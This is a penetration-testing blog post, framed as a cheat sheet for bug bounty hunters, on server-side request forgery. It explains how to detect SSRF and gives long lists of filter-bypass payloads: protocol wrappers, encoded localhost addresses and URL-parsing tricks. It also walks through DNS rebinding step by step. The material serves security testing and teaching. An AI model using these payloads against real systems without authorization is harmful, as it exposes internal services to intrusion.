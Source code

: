 ```yaml
---
layout: blog_item
title: "SSRF Cheat Sheet & Bypass Techniques"
date:   2021-05-30 09:29:10
author: Arr0way
description: 'SSRF explained and the techniques to indentify, and bypass server side SSRF filtering.'
categories: [cheat-sheet]
tags:
- SSRF
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is SSRF? 

Server Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to exploit vulnerable functionality to access server side or local network services / functionality by affectively traversing the external firewall using vulnerable web functionality. 

Another way to think of this would be to imagine the web applications vulnerable function is a web browser, that will allow you to pivot / relay request to the internal interface addresses, loopback or internal network to access services (effectively traversing the WAF or firewall). 

An example of this could be a web function that allows the adding of a URL or third-party service, this could then be exploited to access internal or local IP address. 

After identifying SSRF on applications running modern frameworks or a WAF, more work will be required in an effort to defeat the protection / filtering that is in place, and allow for successful SSRF exploitation. 

<!--more-->


## Identifying Potential Locations for SSRF

Any functionality that allows external service interaction is a good stating point, any where that accepts a third party URL or service integration.

## How to Find SSRF Vulnerabilities 

In order to identify a SSRF vulnerability the first step is confirming that the functionality is vulnerable, an easy / scalable way to do this is using Burp Collaborator. Burp Collaborator will easily allow you to assess if out-of-band interaction is possible (the target server directly accessing a server you control). 

<div class="note warning">
  <h5>PRO TIP: Run Your Own Collaborator Server</h5>
  <p>If you are taking part in bug bounty programs run your own Burp Collaborator  server as often the default Burp Collaborator service domain is filtered, giving you an increased chance of detection - <a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode works great for this</a>, it's cheap, fixed price and has a direct public IP address.</p>
</div>

It should be noted that a function may still, potentially be vulnerable even if not identifid via Burp Collaborator, this is typically due to the target server not allowing outbound dns or strict egress firewall rules.  

## Tips for filtered SSRF

### Timing Difference

At the detection phase, try timing difference on responses to see if there is filtering in place when different domains, IP's or ports are being fitlered. 


### Wrappers

```
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```
```
file:///, dict://, ftp://, gopher://
```

### Basic locahost bypass attempts 

Localhost bypass:

```
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
```

various bypasses: 

```
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
```


### hosts file bypass attempts 

### Enclosed Alphanumeric 

```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
```

## DNS rebinding attempts 

### What is a DNS rebinding attack?

In certain situations a target function may check a hostname "blindly" against a whitelist/blacklist without verification of the the resolution IP address. Once the hostname has been determined OK by the above function it is then passed to the function which it is intended to protect.

### How to exploit a vulnerable function

You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP. 

Fortunately taviso has built a [service for this](https://github.com/taviso/rbndr) which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack. 

You can use the follow web app to generate your rebinder domain: https://lock.cmpxchg8b.com/rebinder.html

To overcome this issue, have one of the resolution IP addresses in your control and verify the response of that IP request, to help determine if the target functionality is vulnerable.

1. go to https://lock.cmpxchg8b.com/rebinder.html add your IP's
2. check it works with host 
3. attempt to exploit the SSRF location with it


Happy hunting / pen testing. 
